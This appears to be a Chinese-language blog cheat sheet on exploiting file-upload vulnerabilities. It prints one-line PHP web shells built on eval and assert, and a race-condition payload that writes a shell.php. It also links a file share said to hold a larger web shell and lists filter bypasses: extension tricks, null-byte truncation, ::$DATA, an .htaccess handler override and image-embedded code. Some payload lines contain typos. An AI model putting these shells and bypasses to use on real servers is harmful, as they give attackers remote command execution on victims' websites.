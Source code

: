```yaml
---
layout: post
title: upload方法大全
categories: [web,upload]
---
```

# 文件上传漏洞
## 木马后门  
### 一句话木马
```php
	<?php @eval($_POST["cmd"]); ?>
	Cookie
	<?php @$a = $_COOKIE[1];$b =''; $c =''; @assert($b.$a); ?>
```
```js
	<script language="php">@eval($_POST['cmd'])</script>
```

### 小马
### 大马  
>链接：https://pan.baidu.com/s/1NM1kD7bEa_aUEqZxVaplpg?pwd=p2s8  
>提取码：p2s8

---

## 文件上传绕过方法
>删除/禁用js、修改拓展名、修改MIME类型、等价拓展名、大小写、htaccess、双写、空格、点、  
>::$DATA、%00截断、0X00截断、图片马、条件竞争等等  
---

### MINE类型
>常见Content-Type
1.image/gif 
2.image/png 
3.image/jpeg    
4.text/plain
5.text/html  
6.application/pdf  

### 文件内容
1.文件幻数  有`GIF89a`等等  
2.文件相关信息  
3.图片渲染  
>对图片进行代码注入
![php](/img/1php.png)  
![house](/img/house.png)  
4.二次渲染
>使用溢出攻击实现

### 文件后缀

#### 1.黑名单  
>后缀大小写(.Php)、  
>空格(.php )、  
>点(.php.)、  
>(.php::$DATA)、  
>Apache解析漏洞不识别`.rar`/`.owf`(.php.rar.owf)  
>.htaccess文件
```htaccess
	<FilesMatch "shell.png">
	SetHandler application/x-httpd-php
	</FileMatch>  
```  

#### 2.白名单  
>%00截断、0X00截断 shell.php`%00`.png
>POST方式注意在hex编码处将空格`0x20`改为`0x00`
---
### 竞争条件攻击  
>一些网站先允许任意文件上传，再对文件内容进行检测  
>检测到删除之间存在时间差  
>可以在时间差内生成新的`shell.php`  
  
#### 上传的php代码
```php
	<?php
		fputs(fopen('../shell.php','w'),'<?php @eval(&_POST['cmd']);?>');
	?>		
```
